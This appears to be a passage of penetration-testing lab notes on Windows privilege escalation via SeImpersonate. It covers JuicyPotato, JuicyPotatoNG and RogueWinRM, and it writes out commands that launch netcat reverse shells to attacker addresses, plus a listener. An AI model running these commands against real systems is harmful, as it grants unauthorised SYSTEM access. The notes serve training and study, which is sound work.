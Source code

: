 It is possible to get a shell abusing of juicypotato:
```powershell
juicypotato.exe -l 1337 -c "{CBC04AF1-25C7-4A4D-BB78-28284403510F}" -p c:\windows\system32\cmd.exe -a "/c C:\Temp\nc.exe -e cmd 10.10.14.2 443" -t *
```

### JuicyPotatoNG (Windows Server 2019)

^ab2891

Downloading this script we can get the same results than JuicyPotato but this works really well for Windows Server 2019 [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1)

We need to upload it to the machine and execute it as follows:
```powershell
JuicyPotatoNG.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Temp\nc.exe -e cmd 10.10.14.2 1234"
```
Examples:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:seimpersonateprivilege)

### RogueWinRM

We can use the web shell or the command injection input to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:

![Webshell impersonate privileges](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/4603506a36f4bbda602dc67cdc845d9f.png)  

To use RogueWinRM, we first need to upload the exploit to the target machine.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.

> If WinRM is active on the machine (port 5985/tcp) RogueWinRM is not exploitable. 
{: .prompt-warning }

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

```bash
user@attackerpc$ nc -lvp 4442
```

And then, use our web shell to trigger the RogueWinRM exploit using the following command:

```powershell
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

> The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.
{: .prompt-info }
